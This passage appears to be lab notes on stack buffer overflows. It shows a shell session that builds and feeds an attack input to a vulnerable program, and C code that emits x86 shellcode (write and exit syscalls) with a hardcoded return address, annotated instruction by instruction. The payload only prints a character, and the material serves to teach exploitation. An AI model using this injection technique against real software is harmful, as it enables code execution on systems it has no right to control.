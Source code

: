 ```bash
$ gcc -o inp-write4 inp-write4.c
$./inp-write4 > attack-inp4
$ xxd attack-inp4
0000000: 6a62 89e6 31c0 b004 31db b301 89f1 31d2  jb..1...1.....1.
0000010: b201 cd80 31c0 b001 31db cd80 f0d4 ffff  ....1...1.......
$ ./f2 < attack-inp4
id location:0xffffd4f0. enter id
you entered jb��1��1۳��1Ҳ̀1��1�̀����
b$
```

### 5) Modify your code such that it displays `ab`.

Explanation about the ASM code in `inp-write3.c`.
It is ASM code for following C code:

```c
        void main(){
             char buf;
             buf='a';
             write(1, &buf, 1);  // display 'a' in file 1, which is the screen.
             exit(0);
        }
```

- `write(x, &buf, n)` can be written in ASM:

  - 1. mov ebx, x ; x is the file number. pass "file number" in ebx
  - 2. mov ecx, &buf ; buf has the data. pass its address in ecx
  - 3. mov edx, n ; n is the number of bytes to write. pass it in edx
  - 4. mov eax, 4 ; system call number for write() is 4. pass system call number in eax
  - 5. int 0x80 ; sytem call interrupt

- `exit(x)` can be written in ASM:
  - 1. mov ebx, x ; x is the exit code. pass "exit code" in ebx
  - 2. mov eax, 1 ; system call number for exit() is 1. pass system call number in eax
  - 3. int 0x80 ; system call interrupt

```c
  // buf='a'; write(1, &buf, 1);
   printf("\x6a\x61");         // push 0x61.  buf='a'. allocate buf in the stack ans store 'a'
   printf("\x89\xe6");         // mov esi, esp. now esi points to buf
   printf("\x31\xc0");         // xor eax, eax. eax will become zero by self-xoring
   printf("\xb0\x04");                   //mov al, 0x4. store system call number for write(). step 4)
   printf("\x31\xdb");                   //xor ebx, ebx. ebx will become zero by self-xoring
   printf("\xb3\x01");                   //mov bl,  0x1. store  file number. step 1)
   printf("\x89\xf1");                   //mov ecx, esi. store buf address in ecx. step 2)
   printf("\x31\xd2");                   //xor edx, edx
   printf("\xb2\x01");                   //mov dl, 0x1. store  num of bytes to write. step 3)
   printf("\xcd\x80");                   //int 0x80. write(1, &buf, 1). write 'a' in the screen. step 5)
   // exit(0);
   printf("\x31\xc0");                   //xor eax, eax.
   printf("\xb0\x01");                   //mov al, 0x1.  system call number for exit(). step 2)
   printf("\x31\xdb");                   //xor ebx, ebx. ebx become zero. pass exit code in ebx. step 1)
   printf("\xcd\x80");                   //int 0x80. exit(0). step 3)
   printf("\x60\xfb\xff\xbf");           // ret addr

```
